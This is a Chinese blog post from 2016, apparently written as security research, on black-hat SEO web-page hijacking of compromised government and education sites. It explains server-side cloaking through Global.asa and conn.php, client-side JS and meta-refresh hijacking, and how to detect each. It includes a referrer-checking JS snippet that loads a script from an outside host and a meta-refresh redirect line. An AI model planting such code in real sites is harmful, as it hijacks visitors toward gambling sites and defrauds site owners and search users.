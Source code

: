 ```yaml
---
title: 黑帽SEO之网页劫持
date: 2016-10-12 10:25:13
comments: true
tags: 黑帽SEO
categories: 黑产研究
---
```

　　网页劫持是目前黑帽SEO或者说黑产最喜欢的一种网页引流方式，此手法往往通过入侵政府、教育机构网站（权重高），修改网站源代码、放寄生虫程序、设置二级目录反向代理等实现。网页劫持可以分为服务端劫持、客户端劫持、百度快照劫持、百度搜索劫持等等；表现形式可以是劫持跳转，也可以是劫持呈现的网页内容，目前被广泛应用于私服、博彩等暴利行业。

### 服务端劫持
服务端劫持也称为全局劫持，手法为修改网站动态语言文本，判断访问来源控制返回内容，从来达到网站劫持的目的。
#### asp/aspx/php劫持
　　Global.asa、Global.asax、conn.asp、conn.php等文件比较特殊，作用是在每次执行一个动态脚本的时候，都会先加载该脚本， 然后再执行目标脚本。所以只要在 Global.asa 中写判断用户系统信息的代码（访问来源等），如果是蜘蛛访问则返回关键词网页（想要推广的网站），如果是用户访问，则返回正常页面。

### 客户端劫持
客户端劫持的手法也很多，但主要就是2种：js劫持、Header劫持。
#### js劫持
js劫持目的：通过向目标网页植入恶意js代码，控制网站跳转、隐藏页面内容、窗口劫持等。
js植入手法：可以通过入侵服务器，直接写入源代码中；也可以写在数据库中，因为有些页面会呈现数据库内容。
#### js劫持案例
效果：通过搜索引擎搜索点击页面（执行一段js）跳转到博彩页面；直接输入网址访问网页，跳转到404页面。
代码：
```bash
today=new Date();
today=today.getYear()+"-"+(today.getMonth()+1)+"-"+today.getDate();
var regexp=/\.(sogou|so|haosou|baidu|google|youdao|yahoo|bing|gougou|118114|vnet|360|ioage|sm|sp)(\.[a-z0-9\-]+){1,2}\//ig;
var where =document.referer;
if(regexp.test(where)){
document.write ('<script language="javascript" type="text/javascript" src="http://www.xxx.com/test.js"></script>');
}
else
{
window.location.href="../../404.htm";
}
```
分析：通过referer判断来路，如果referer来路为空就是跳转到404页面，如果是搜索引擎来的referer里面也会有显示，然后在写代码控制跳转。如果只是控制实现显示不同的内容，可以修改php、asp代码；如果需要劫持搜索引擎搜索框，可以写JS代码来做浏览器本地跳转。当然js功能可以无限扩展，比如可以控制一个ip一天内第一次访问正常，其余访问跳转等等。
#### header劫持
在源代码中写入以下代码：
```bash
<meta http-equiv=“refresh“ content=“10; url=http://thief.one“>
```
利用的就是Meta Refresh Tag（自动转向），将流量引走。

### 手法对比
#### 客户端劫持与服务端区别
客户端劫持：每次访问网页从服务端获取到的网页代码都是相同的，只是控制了网页代码在浏览器中呈现的效果（比如是否进行跳转等）。
服务端劫持：改变了每次访问网页从服务端获取到的网页代码。
#### 客户端劫持与服务端判断方法
客户端劫持的判断方法：只需观察浏览器呈现的网页前端代码，查看是否引用了不当的js，或者其它敏感内容。
服务端劫持的判断方法：可以通过观察网站后端代码，或者通过改变ip，包头等方式，观察放回源码是否不同。

结语：*网页劫持的方法还有很多，我了解的大概只是皮毛，黑帽SEO技术的水很深，前路漫漫。*
